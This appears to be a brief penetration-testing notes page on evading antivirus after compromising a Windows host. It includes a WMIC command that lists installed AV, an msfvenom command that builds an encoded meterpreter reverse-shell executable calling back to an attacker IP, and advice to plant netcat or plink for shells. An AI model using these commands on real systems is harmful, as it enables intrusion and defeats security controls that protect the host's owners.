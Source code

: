 # AntiVirus Bypass

So we've compromised a host but AV is preventing us from doing much interesting.  Let's work out how to evade it.

To see what AV you're working with use:

```bash
 wmic.exe /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
```

## shikata\_ga\_nai

Perhaps the least effective of all these methods is the shikata\_ga\_nai encoding within the msfvenom payload generator.  This wasn't designed to evade AV and is more a tool for removing unwanted characters, but nevertheless it did prove effective in some cases of evading AV.  Since vendors have access to metasploit now, most AV will detect it.

I have had some luck with this but with very uncommon or simple payload types, and something like embedding a meterpreter almost never worked:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=1234 -f exe -e x86/shikata_ga_nai -i 9 -o shell.exe
```

## Non-Malicious Binaries

> If you don't want to trigger AV, use something AV isn't looking for!

Several binaries have uses as part of system administration or just general computing tasks but can also aid you in achieving a shell or moving your payload onto the system in memory.  In this cases binaries like netcat, [plink ](https://putty.org/)and others can be placed on the remote machine and generally will not trigger the antivirus alert.

You can use techniques like this to aid in escalating and keeping the actual malicious payloads in memory.  This is unlikely to be a defence against Next-Gen AV however.

